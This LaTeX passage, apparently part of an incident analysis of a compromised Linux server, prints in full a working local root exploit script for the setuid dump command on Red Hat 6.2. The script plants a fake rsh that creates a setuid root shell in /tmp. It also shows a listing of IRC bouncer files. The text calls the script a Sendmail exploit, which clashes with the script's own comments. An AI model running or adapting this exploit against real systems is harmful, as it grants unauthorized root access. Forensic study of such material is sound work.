 \vspace{1em}

 This represents the payload of a local Sendmail privilege escalation exploit.\\
 
 
 Contents of \texttt{dump.sh}:

\vspace{1em}

\begin{lstlisting}[style=terminal] 
#!/bin/sh

# Redhat 6.2 dump command executes external program
# with suid priviledge.
# Discovered by Mat <mat@hacksware.com>
# Written for and by a scriptkid Tasc ;P
# Remember, there's no cure for BSE

echo "dump-0.4b15 root exploit"
echo "Discovered by Mat <mat@hacksware.com>"
echo "-------------------------------------"
echo
DUMP=/sbin/dump
if [ ! -u $DUMP ]; then
  echo "$DUMP is NOT setuid on this system or does not exist at all!"
  echo
  exit 0
fi
export TAPE=iamlame:iamlame
export RSH=/tmp/rsh
cat >/tmp/rsh <<__eof__
#!/bin/sh
cp /bin/sh /tmp/sush
chmod 4755 /tmp/sush
}
__eof__
chmod 755 /tmp/rsh
/sbin/dump -0 /
echo
echo "Waiting for rootshell .... 5 seconds...."
sleep 5
/tmp/sush
id
\end{lstlisting}

\vspace{1em}

This shell script automates privilege escalation, spawning an unauthorized interactive root shell.\\
 

The directories and archives \texttt{emech}, \texttt{psybnc}, and \texttt{eggdrop} represent packages designed to run IRC bots, bouncers, and embedded FTP/Telnet servers. The contents of these directories were:

\vspace{1em}

\begin{lstlisting}[style=terminal]
drwxr-xr-x  3 1040     1040        4096 Apr 23 22:33 ..                                                                                     ?
drwxr-xr-x  2 1040     1040        4096 Oct 21  2000 help
drwxr-xr-x  2 1040     1040        4096 Apr 23 22:34 log
drwxr-xr-x  3 1040     1040        4096 Oct 21  2000 menuconf
drwxr-xr-x  2 1040     1040        4096 Apr 23 22:42 motd
drwxr-xr-x  3 1040     1040        4096 Jul 30  2000 scripts
drwxr-xr-x  2 1040     1040        4096 Oct 21  2000 tools
-rw-r--r--  1 1040     1040       18124 Oct 28  2000 CHANGES
-rw-------  1 1040     1040       17982 May 16  1997 COPYING
-rw-r--r--  1 1040     1040        2660 Aug  8  2000 FAQ
-rw-r--r--  1 1040     1040         394 Oct 28  2000 Makefile
-rw-r--r--  1 1040     1040       36075 Oct 28  2000 README
-rw-r--r--  1 1040     1040          76 Oct 28  2000 TODO
-rwxr-xr-x  1 1040     1040      537712 Apr 23 22:33 in.ftpd
-rw-------  1 1040     1040         716 Apr 23 22:42 psybnc.conf
-rw-------  1 1040     1040         716 Apr 23 22:42 psybnc.conf.old
-rw-------  1 1040     1040           7 Apr 23 22:33 psybnc.pid
-rwxr-xr-x  1 1040     1040         369 Aug  8  2000 psybncchk
\end{lstlisting}

